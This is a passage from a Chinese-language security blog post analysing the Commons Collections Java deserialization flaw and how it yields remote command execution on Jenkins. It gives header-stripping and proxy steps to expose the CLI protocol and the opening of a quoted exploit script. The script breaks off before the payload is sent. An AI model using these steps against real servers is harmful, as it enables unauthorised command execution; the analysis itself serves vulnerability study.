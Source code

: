 }
{% endhighlight %}
简直完美。它的成员变量memberValue为Map<String, Object> 类型，并且在重写的`readObject()`方法中有`memberValue.setValue()`的操作。

我们可以实例化一个`AnnotationInvocationHandler`类，将其成员变量`memberValues`赋值为精心构造的恶意`TransformedMap`对象。然后将其序列化，提交给未做安全检测的Java应用。Java应用在进行反序列化操作时，则会触发`TransformedMap`的变换函数，执行预设的命令。

## 0x04 Jenkins利用详细分析

想要使用这个漏洞利用Java应用，则需要找一个序列化对象的接收入口，并且这个Java应用使用了Commons Collections库。

从流量上分析，java序列化的数据为以标记（ac ed 00 05）开头，base64编码后的特征为rO0AB。从代码上分析，可以关注`readObject()`方法的使用点。

在<foxglovesecurity.com>发布的文章中，受影响的Java应用程序就已经包括了WebLogic, WebSphere, JBoss, Jenkins, OpenNMS等等。foxglovesec也在GitHub上给出了各受影响应用的Expoit：<https://github.com/foxglovesec>

以Jenkins为例，Jenkins是一个开源的持续集成软件。Jenkins启动后会开放多个端口，除了Web控制台之外还有一个CLI端口。CLI端口为随机的高端口，通过jenkins目录下的`WEB-INF/jenkins-cli.jar`程序可以和CLI端口进行通信。分析通信数据包发现存在base64编码的Java序列化特征值rO0AB。


于是我们可以将数据包中Base64编码的序列化数据 替换为我们构造的恶意数据，发送到Jenkins服务端，实现远程命令执行。

直接使用wireshark抓取这段通信包时，会发现它是经过SSL加密的密文数据。

分析数据包发现，jenkins-cli.jar在与CLI端口通信之前，会先HTTP GET请求一下jenkins的Web控制台，从响应包中解析出CLI的端口，再做后续通信。

如果未解析到`X-Jenkins-CLI2-Port`头，则会解析`X-Jenkins-CLI-Port`头，此时Jenkins-CLI通信协议自动降为Version1，并且无SSL加密。
于是，我们可以通过BurpSuit来篡改通信中的HTTP响应包，删除`X-Jenkins-CLI2-Port`响应头，从而使wireshark可以抓到明文数据包。
设置命令行终端的HTTP代理，一般可以使用环境变量`http_proxy`

{% highlight bash %}
export http_proxy=http://proxyaddress:port
{% endhighlight %}

这里对于Java程序，需要_JAVA_OPTIONS进行设置

{% highlight bash %}
export _JAVA_OPTIONS='-Dhttp.proxyHost=127.0.0.1 -Dhttp.proxyPort=8080'
{% endhighlight %}

再执行jenkins-cli.jar，篡改数据包后，即可使用wireshark抓到明文的Jenkins-CLI通信包。

{% highlight bash %}
java -jar jenkins-cli.jar -s http://x.x.x.x:8888/
{% endhighlight %}

`@breenmachine`给出的完整的利用脚本如下：

{% highlight python %}
#!/usr/bin/python

#usage: ./jenkins.py host port /path/to/payload
import socket
import sys
import requests
import base64

host = sys.argv[1]
port = sys.argv[2]

#Query Jenkins over HTTP to find what port the CLI listener is on
r = requests.get('http://'+host+':'+port)
cli_port = int(r.headers['X-Jenkins-CLI-Port'])

#Open a socket to the CLI port
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (host, cli_port)
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers